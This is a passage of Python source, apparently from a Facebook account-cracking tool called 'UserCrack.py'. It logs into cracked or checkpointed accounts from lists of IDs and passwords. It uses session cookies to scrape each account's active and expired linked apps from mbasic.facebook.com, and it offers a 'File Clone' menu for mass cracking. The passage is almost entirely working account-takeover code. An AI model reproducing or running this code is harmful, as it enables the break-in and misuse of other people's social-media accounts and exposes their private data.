                 titid  = kontol.split(' • ')
                print(f'{N}══════════════════════════════════════════\n {H}LOGIN PROCESS')
                jalan(f' {N}[{M}?{N}] Account : {K}{kontol.replace("[JAMES-CP] ", "")}{N}')
                try:
                    log_hasil(titid[0].replace("[JAMES-CP] ", ""), titid[1])
                except requests.exceptions.ConnectionError:
                    continue
                    print("")
            print("")
            jalan(' %s[%s✓%s] %sChecking process is complete%s'%(N,H,N,H,N))
            jalan(' %s[%s✓%s] Retrun SC type "%spython UserCrack.py%s"'%(N,H,N,H,N));exit()
        elif cek_cp in["T","t"]:
            jalan(f"\n {N}[{H}•{N}] {N}Ok, thank you. Retrun SC type '{H}python UserCrack.py{N}'");exit()
        else:
            print(f"\n {N}[{M}!{N}] Choose Y/t");hasil(ok,cp)
    else:
        jalan('\n\n %s[%s!%s] Sorry you didnt get results'%(N,M,N));exit()



def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %sSorry there is no Active Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r 🎮  %sYour Active Application Details :'%(H))
        for i in range(len(game)):
            print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %sSorry no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r 🎮  %sYour Expired Application Details :'%(M))
        for i in range(len(game)):
            print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print(f'\r')
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie\n'%(N,M,N))
#METODE LOGIN
### MENU UTAMA ###
def file():
            logo()
            print('')
            print("\033[1;92m [01] File Clone ")
            key = input("\n [+] Select One : ")
            if key in [""]:
                print(" [!] please select correct option")
                exit()
            elif key in ["1", "01"]:
                __chigoue__().chi(id)
